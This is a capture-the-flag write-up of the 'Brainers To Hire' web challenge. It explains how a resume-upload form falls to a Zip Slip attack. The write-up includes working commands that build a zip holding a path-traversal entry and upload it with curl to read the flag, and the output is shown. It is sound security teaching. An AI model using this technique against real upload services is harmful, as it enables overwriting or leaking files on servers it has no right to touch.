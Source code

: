 
# Brainers To Hire

* Category: Web
* 100 points

## Description

> Layoffs are worldwide, but we're strong, have terrific customers, and have lots of money.
> 
> So if you are unsatisfied with what you do, or you just like to be a millionaire upload your resume!

## Solution

Didn't solve this one during the CTF, got the intended solution from the admin (🙏).

A website was attached. The interesting part was:

```html
<div class="container">
  <h1 class="banner_taital">Adventure</h1>
  <p class="banner_text">
    Layoffs are worldwide, but we're strong, have terrific customers, and have lots of money.So if you are unsatisfied with what you do, every company meeting is a slippery slope.If your colleagues are not your cup of tea, or you just like to be a millionaire zip it and join us!
  </p>                                                
  <form id="upload_form" name="upload_form" method="post" enctype="multipart/form-data">
    <div class="read_bt">                              
        <input type="file" name="uploaded_file" onchange="handle_file()" placeholder="resume.." id="uploaded_file">                           
    </div>                           
  </form>                           
  <p class="banner_text" id="upload_status"></p>  
</div>
```

What we have here is a form to upload a file, and a clear hint towards `zip` files.

In addition, we have:

```javascript
var form = document.getElementById("upload_form");
    function handle_file() {
    var status = document.getElementById("upload_status");
    var data = new FormData(form);
    fetch(form.action, {
    method: form.method,
    body: data,
    headers: {
      'Accept': 'application/json'
    }
    }).then(response => {
          response.json()
      .then((data)=>{
          if (data.flag)
            status.innerHTML = data.flag;
          else
            status.innerHTML = "Thanks for your submission!" ;
      form.reset()
      })         
    }).catch(error => {
    status.innerHTML = "Oops! There was a problem submitting your form"
    });
    return false;   
}
```

We can see that if we trigger the flow on the server side to reveal the flag, we'll get it back in the response to the form upload.

For standard uploads, we get:

```console
┌──(user@kali)-[/media/…/2/3/4/5]
└─$ curl -F "uploaded_file=@test.zip" 'https://brainerstohire.appsecil.ctf.today/career'
{"msg":"success","status":"ok"}
```

The vulnerability behind this challenge is [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability). 
This vulnerability allows attackers to override / leak files outside the base folder which is supposed to contain the extracted files.

In our case we'll try to access `/flag` using the following technique:

```console
┌──(user@kali)-[/media/…/2/3/4/5]
└─$ echo FakeFlag > ../../../../../flag

┌──(user@kali)-[/media/…/2/3/4/5]
└─$  zip exploit1.zip ../../../../../flag
  adding: ../../../../../flag (stored 0%)
```

Once the application tries to extract `exploit1.zip`, the archived file would supposedly get extracted to `../../../../../flag`. Hopefully we're deep enough so that the path is equivalent to `/flag`.

Let's upload it:

```console
┌──(user@kali)-[/media/…/2/3/4/5]
└─$ curl -F "uploaded_file=@exploit1.zip" 'https://brainerstohire.appsecil.ctf.today/career'
{"msg":"success","status":"ok","flag":"AppSec-IL{z1p_5l1p_is_a_5l1pp3ry_5l0p3}\n"}
```

In a real world scenario, `/flag` would probably have gotten overridden by the contents of our file though.